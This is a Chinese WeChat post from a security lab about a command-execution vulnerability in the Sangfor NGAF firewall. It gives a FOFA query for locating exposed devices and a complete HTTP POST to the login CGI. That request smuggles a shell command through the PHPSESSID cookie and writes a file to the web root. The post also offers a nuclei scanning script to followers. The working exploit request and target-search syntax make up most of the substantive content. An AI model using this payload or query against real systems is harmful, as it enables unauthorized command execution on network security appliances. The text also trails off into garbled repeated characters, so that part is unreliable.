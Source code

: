#  深信服 NGAF下一代防火墙命令执行

原创 blkx  [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

收录于合集 #漏洞复现 21个

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

 **00**

 **漏洞概述**

![]()

深信服 NGAF下一代防火墙 登录页面PHPSESSID 存在命令执行漏洞。

 **01**

 **空间搜索语法**

![]()

fofa

title="移动管理平台-企业管理"

![]()

 **02**

 **利用过程**

![]()

登录界面

![]()

PHPSESSID参数存在命令执行漏洞，可以执行任意命令。

  *   *   *   *   *   *   *   *   *   * 

    
    
    POST /cgi-bin/login.cgi HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36Connection: closeContent-Length: 116Content-Type: Application/X-www-FormCookie: PHPSESSID=`$(echo ydizhnim > /fwlib/sys/virus/webui/svpn_html/pgclifey.txt)`;Accept-Encoding: gzip, deflate, br  
     {"opr":"login", "data":{"user": "asd52536372" , "pwd": "asd52536372" , "vericode": "EINW" , "privacy_enable": "0"}}

漏洞存在响应包如下。  

![]()

![]()

 **03**

 **nuclei**

![]()

![]()

获取脚本关注本公众号后发送：深信服NGAF1原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创创原创原创  

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

